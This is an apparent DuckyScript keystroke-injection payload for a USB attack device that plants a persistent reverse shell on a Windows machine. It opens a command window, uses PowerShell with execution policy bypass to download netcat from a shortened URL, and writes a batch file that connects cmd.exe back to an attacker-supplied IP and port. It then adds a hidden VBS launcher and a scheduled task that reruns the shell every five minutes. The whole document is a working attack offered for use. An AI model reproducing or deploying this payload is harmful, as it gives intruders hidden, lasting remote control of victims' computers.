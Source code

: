   REM [Persistent reverse shell that runs in the background every 5 minutes.]
  REM [replace [IP] with your listening IP]
  REM [replace [PORT] with a port of your choice]
  REM [opens command window]
  GUI r
  DELAY 300
  STRING cmd
  ENTER
  DELAY 500
  REM [downloads netcat and saves it as a.exe in the folder C:\System]
  STRING cd / & mkdir System & cd System & echo (wget 'https://tinyurl.com/y88r9epk' -OutFile a.exe) > b.PS1 & powershell -ExecutionPolicy ByPass -File b.ps1
  ENTER
  DELAY 1000
  REM [creates start.bat which triggers the reverse shell]
  STRING echo START /MIN a.exe [IP] [PORT] -e cmd.exe -d ^& exit > start.bat
  ENTER
  DELAY 100
  REM [creates three lines of commands in a script file telling the start.bat file to run in the background]
  STRING echo Set WshShell = CreateObject("WScript.Shell") > c.vbs
  ENTER
  DELAY 100
  STRING echo WshShell.Run chr(34) ^& "C:/System/start.bat" ^& Chr(34), 0 >> c.vbs
  ENTER
  DELAY 50
  STRING echo Set WshShell = Nothing >>> c.vbs
  ENTER
  DELAY 50
  REM [schedules the script file to run every 5 minutes (change the number 5 to a different time if you need)]
  STRING schtasks /create /tn TaskSystem /tr C:/System/c.vbs /sc minute /mo 5 
  ENTER
  DELAY 75
  REM [runs start.bat and closes the command window]
  STRING start.bat & exit
  ENTER